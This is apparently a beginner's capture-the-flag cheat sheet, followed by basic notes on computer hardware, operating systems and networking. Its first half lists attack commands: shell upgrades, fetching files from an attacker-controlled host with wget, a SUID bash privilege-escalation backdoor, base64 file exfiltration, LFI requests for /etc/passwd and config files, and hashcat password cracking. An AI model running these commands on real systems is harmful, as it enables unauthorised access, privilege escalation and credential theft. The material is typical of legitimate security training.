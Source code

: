 # Guide404
simple guide for noobs

----------------------GENERAL-----------------
(For every domain you find:)
1. nano /etc/hosts
(Harden the web shell)

2. python3 -c 'import pty; pty.spawn("/bin/bash")'   (SHELL HARDERING)
stty raw -echo; fg
export TERM=xterm
or
script /dev/null -c bash
stty raw -echo
fg
reset

3. (move one file from your machine to the target , if you have a ssh connection)
   --> python3 -m http.server 8888 (in the directory of yhe file you want to send)
   --> wget http://<myIP>:<port>/filename   (at target's pc)


4. cp /bin/bash /tmp/bash && chmod u+s /tmp/bash
   cd /tmp
   ./bash -p
   whoami

5. (YOU CANT TAKE A FILE FROM TARGETS MACHINE WITH PYTHON SERVER)
   a. cat filename|base64   (copy it)
   b. nano name.base64     (and put it inside)
   c. cat name.base64|base64 -d>name   (and now you have it at your machine)

   

--------------------LFI---------------------
1. (throught pdf export/download) (known exploitable files: https://github.com/hussein98d/LFI-files/blob/master/list.txt):
   --> (burpsuite) GET /download?filename=../../../../../etc/passwd HTTP/1.1
   --> GET /download?filename=../../config/database.yml HTTP/1.1

-----------------------------HASHES-----------------------------
1. go at hashcat id tables and ctr+F to searc your hash and take the id
2. hashcat -m <id> hash.txt /usr/share/wordlists/rockyou.txt

-----------------------------WEBSHELL-----------------------
(after you get a web shell)
1. python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
export TERM=xterm
2. cat /var/www/limesurvey/application/config/config.php (you might find password for ssh)





                                                                                             SOME THEORY

A PC has those 5 components:
1)CPU     --> a) ALU (Arithmetic Logic Unit) does calculations   b) CU (Control unit) manage data/orders   c) Registers (short term storaging)  ||||| fetch->Decode->Excecute->Repeat
2)RAM     --> Fast temporary memory --> DDR4/DDR5
3)Hard Disk (ssd/hdd) or new gen (NVMe SSD)     -->SSD (faster,reliable,no noisy)   HDD (Bigger space than ssd, noisy and if it moves it can stop working)   
4)Motherboard
5)GPU
+ input/output devices (I/O)

inputs --> (CPU) processing --> (RAM/HardDisk) storage --> output


-----------------------------------------MEMORY-----------------------------------
overall memories --> a) Registers   b) Cashe (L1, fast but small|||L2,slow but bigger|||L3, even slower but bigger too)   c)RAM   d) HardDisk
when we open a program:
CPU loads it to the RAM from the HardDisk, and CPU reads it from the RAM and stores the data at Cache or Registers
If RAM is full, PC uses some space from HardDisk, like a Virtual Memory ----> Known us Paging (slower than RAM)


---------------------------------------OS--------------------------------
What it does?
1) CPU sheduling
2) RAM-VM sheduling
3) Storage management
4) I/O devices management
5) Files management

it has 4 parts:
1)Kernel: the core/brain of it, it communicates with the hardware and loads the programs at RAM.
2)Shell: the interface for the communication with the user
3)File System: the way the pc stores and manages the files (known ones: NTFS, FAT32, EXT4)
4)Drivers (softwares)

So when i open a PC, the 'Boot loader" loads the OS at RAM, the kernel starts the "start-ups" services and then every time you open a program: the OS loads it to the RAM, CPU execute the orders and the OS handle the data and communication user-program.

-------------------------------------Networking--------------------------------------

The base of nowadays networks are the Nodes and the Links
Types of networks: 
1) LAN
2) WAN
3) WLAN (wireless)
4) VPN
   The protocoles used are:
1)IP  (manages the addresses on the network)
2)TCP (slower but reliable)
3)UDP (fast but not so reliable)

The model that is commonly used is the OSI Model:
That has 7 layers:
7)Application          (HTTP,HTTPS,QUICK) apis
6)Presentation         cryptography
5)Session              manages connections/sessions
4)Transport            TCP/UDP
3)Network              IP
2)Data Link            Machine-Machine
1)Physical             wires/signals




